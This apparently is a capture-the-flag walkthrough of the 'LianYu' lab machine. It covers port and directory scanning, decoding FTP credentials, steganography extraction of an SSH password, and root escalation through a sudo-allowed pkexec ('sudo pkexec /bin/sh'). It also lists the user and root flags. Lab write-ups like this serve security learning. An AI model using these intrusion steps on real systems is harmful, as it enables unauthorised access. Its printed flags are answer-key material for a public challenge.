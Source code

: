 # Linayu
## Enumeration
```
nmap -sS -sV -A {your ip}
```
```
Ports Found:
Port 80 Running Apache2
Port 22 Running SSH
Port 21 Running FTP
```
### Website Lookup
```
Found Nothing In Website
Started Go Buster Scan With Medium.txt
gobuster -u {your ip} -w /usr/share/dirb/wordlists/medium.txt 
Found /island In Website In It A Hidden Text Named Vigilante Lets Note It.
```
### Again Lookup On /island
```
Firstly I was stucked Here because of using string Wordlists
gobuster -u {your ip} -w /usr/share/dirb/wordlists/directory-list-lowercase-2.3-medium.txt
Found A hidden Directory Named 2100 
After Examing View Source I Found There A Hint For Extension .ticket
```
### Started To Look For Extension With .ticket
```
gobuster -u {your ip} -w /usr/share/dirb/wordlists/medium.txt -x .ticket
Found green_arrow.ticket
```
### Found FTP Credentials
```
We Found Pass For FTP But It Is Encoded In Base 58 So Decoded It using Decoder
User Name = Vigilante Pass = !#th3h00d (Decoded)
```
### Steganography
```
In FTP We Got Three Files:
[+] aa.png
[+] Leave_me_alone.png
[+] Queen's_Gambit.png
But Leave_me_alone.png is corrupted After Examining In Hex Editor I Found That Is Not A Correct Header For Png Format So I Googled Png Hex Header And Replaced It With Googled Image Now I Got Password For aa.png
```
![alt text](https://3.bp.blogspot.com/-nfLNH0R3_R8/V_Gb1cXSlLI/AAAAAAAADUc/UKVFSKl2i-Q-S5csaoxSaQwfxEiH9u8cACLcB/s1600/png_file_header.PNG)
```
steghide extract -sf aa.png Password = password
Now We Got A Zip After Extracting It We Got shado and passwd.txt
There Is Nothing In passwd.txt But In Shado we have pass For SSH {M3tahuman}
I Tried username with oliver and vigilante But I Failed
So I Prompted FTP again and changed directory to /home/ Now I Got The username Slade 
So I SSH Into It Boom I Got user.txt
User Flag = THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```
### Privilage Escalation
```
i Fired Sudo -l And got this
```
**User slade may run the following commands on LianYu: (root) PASSWD: /usr/bin/pkexec**
```
I Opened gtfo-bins and searched for pkexec And Got A Command For Privilage Escalation Which Is:
sudo pkexec /bin/sh
```
**WTF PRIVILAGE ESCALATION IN LESS THAN 30 SECONDS :0**
### Root Flag
```
Root Flag = THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
**Machine Hacked By Patan Musthakheem Khan**
